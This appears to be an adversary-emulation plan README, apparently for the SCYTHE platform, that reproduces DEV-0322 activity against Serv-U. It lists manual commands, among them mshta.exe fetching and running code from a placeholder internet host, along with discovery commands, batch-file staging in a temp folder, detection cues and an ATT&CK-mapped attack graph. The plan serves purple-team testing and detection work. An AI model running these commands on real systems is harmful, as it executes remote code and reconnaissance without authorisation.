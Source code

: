 # DEV-0322 Adversary Emulation Plan

This threat is based on Microsoft Threat Intelligence Center (MSTIC) report post on July 13, 2021: https://www.microsoft.com/security/blog/2021/07/13/microsoft-discovers-threat-actor-targeting-solarwinds-serv-u-software-with-0-day-exploit/

## Emulate with SCYTHE
1. Download and import the threat in JSON format to your SCYTHE instance
2. Create a new campaign
3. Import from Existing Threat: DEV-0322
4. Launch Campaign
5. Execute from an EXE

## Emulate manually
Open a command prompt and run these commands:
- ``` C:\Windows\System32\mshta.exe http://<An Internet IP>```
- ```cmd.exe /c whoami > whoami.txt```
- ```cmd.exe /c dir > dir.txt```
- ```cmd.exe /c echo whoami > C:\Windows\Temp\Serv-U.bat```
- ```cmd.exe /c "C:\Windows\Temp\Serv-U.bat"```
- ```powershell.exe "C:\Windows\Temp\Serv-U.bat"```

## Detection & Response
- An executable spawning mshta.exe
- An executable spawning cmd.exe
- An executable spawning powershell.exe
- An executable spawning whoami
- An executable spawning dir
- mshta.exe reaching out to the internet

 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br><a href='https://attack.mitre.org/techniques/T1059.003'>att&ck-technique:T1059.003</a><br>
"]
Step2["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c whoami > whoami.txt </i> <br><a href='https://attack.mitre.org/techniques/T1033'>att&ck-technique:T1033</a><br>
"]
Step3["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c dir > dir.txt </i> <br><a href='https://attack.mitre.org/techniques/T1083'>att&ck-technique:T1083</a><br>
"]
Step4["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c echo whoami > C:\Windows\Temp\Serv-U.bat </i> <br><a href='https://attack.mitre.org/techniques/T1059.003'>att&ck-technique:T1059.003</a><br>
"]
Step5["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c C:\Windows\Temp\Serv-U.bat </i> <br><a href='https://attack.mitre.org/techniques/T1033'>att&ck-technique:T1033</a><br>
"]
Step6["<b> module: run </b> <br><h4> parameters: </h4> <i> powershell.exe C:\Windows\Temp\Serv-U.bat </i> <br><a href='https://attack.mitre.org/techniques/T1059.001'>att&ck-technique:T1059.001</a><br>
"]
Step7["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c del whoami.txt </i> <br>"]
Step8["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c del dir.txt </i> <br>"]
Step9["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c del C:\Windows\Temp\Serv-U.bat </i> <br>"]
Step10["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
Step7 --> Step8
Step8 --> Step9
Step9 --> Step10
Step10 --> Step11
```
